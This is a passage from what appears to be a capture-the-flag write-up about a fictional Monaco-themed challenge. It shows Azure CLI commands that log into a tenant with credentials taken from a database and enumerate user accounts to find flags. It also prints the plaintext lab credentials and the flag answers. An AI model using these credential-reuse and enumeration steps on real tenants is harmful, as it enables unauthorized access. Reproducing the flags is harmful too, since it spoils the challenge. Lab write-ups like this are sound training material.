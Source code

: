 **Flag Part 2:** `flag-databases-should-not-be-accessible-to-everyone`

**Credentials recovered for Part 3:** `SecretaryOfTheKing@paullorierproton.onmicrosoft.com:ViveLeRoi!`

---

## Part 3: Azure Tenant Enumeration

### Context
We now have access to administrative credentials found in the database. We need to use them to enumerate the Azure tenant and find evidence against the king.

### Objective
Use the credentials to access the Azure tenant and find the final flag in the king's profile.

### Solution

#### Step 1: Using Found Credentials
From the `dbo.Employes` table in the database, we recovered:
- `SecretaryOfTheKing@paullorierproton.onmicrosoft.com:ViveLeRoi!`

Note: Other entries in the table may also contain the king's credentials (`KingOfMonaco:Zafa760107123456789!`).

#### Step 2: Azure Authentication
```bash
# Use Azure CLI
az login --username SecretaryOfTheKing@paullorierproton.onmicrosoft.com --password 'ViveLeRoi!'
```

#### Step 3: Tenant Enumeration
```bash
# List users
az ad user list --output table

# Get information about the king
az ad user show --id KingOfMonaco --output json
```

#### Step 4: Access to King's Information
By enumerating the properties of the `KingOfMonaco` account, we find custom information or notes containing the final flag.

```bash
# Check extended properties
az ad user show --id KingOfMonaco --query "additionalProperties" --output json
```

#### Step 5: Final Flag Recovery
In the metadata or properties of the `KingOfMonaco` user, we find:

**Flag Part 3:** `flag-ohoh-the-king-has-dirty-hands`

---